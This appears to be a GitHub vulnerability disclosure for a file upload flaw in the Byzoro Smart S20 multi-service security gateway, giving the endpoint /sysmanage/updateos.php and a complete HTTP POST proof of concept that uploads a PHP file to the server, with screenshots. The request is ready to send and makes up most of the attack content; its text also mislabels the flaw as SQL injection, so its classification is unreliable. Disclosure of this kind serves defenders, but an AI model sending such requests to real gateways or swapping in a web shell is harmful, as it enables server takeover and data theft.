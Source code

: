 Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet.
There is a file upload vulnerability in Byzro Networks Smart S20 multi-service security gateway intelligent management platform. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： https://www.byzoro.com/

version: S20

Vulnerability Path ：/ sysmanage/updateos.php


Vulnerability type： SQL injection

Vulnerability hazards：Attackers can exploit vulnerabilities to obtain sensitive database information

See the login page.

<img width="783" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/432049a0-e6fd-4b37-81f8-2cd705215e46">

POC：
```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=f5c3464dd3e747681934a5e5597ca58d
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```
<img width="783" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/354f5225-1f17-4046-9914-80a823fc2eaf">

<img width="783" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/08327829-dbad-4aca-ba79-0706c1d811d2">
